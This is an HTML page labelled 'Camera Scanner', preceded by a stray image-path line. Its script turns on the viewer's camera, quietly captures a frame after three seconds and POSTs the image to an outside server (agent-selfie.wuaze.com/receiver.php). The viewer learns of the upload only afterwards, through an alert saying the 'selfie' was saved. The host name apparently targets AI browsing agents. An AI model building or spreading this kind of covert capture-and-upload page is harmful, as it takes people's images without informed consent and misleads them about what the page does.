 <!DOCTYPE html>
<html>
<head>
  <title>Camera Scanner</title>
</head>
<body>
  <h1>Camera Scanner</h1>
  <video id="video" width="320" height="240" autoplay></video>
  <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');
    const context = canvas.getContext('2d');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then((stream) => {
        video.srcObject = stream;
        setTimeout(() => {
          context.drawImage(video, 0, 0, canvas.width, canvas.height);
          const dataURL = canvas.toDataURL('image/png');
          fetch("https://agent-selfie.wuaze.com/receiver.php", {
            method: "POST",
            headers: {
              "Content-Type": "application/json"
            },
            body: JSON.stringify({ image: dataURL })
          })
          .then(res => res.text())
          .then(link => {
            alert("Selfie saved to: " + link);
          });
        }, 3000);
      })
      .catch((err) => {
        console.error("Error accessing the camera: ", err);
      });
  </script>
</body>
</html>
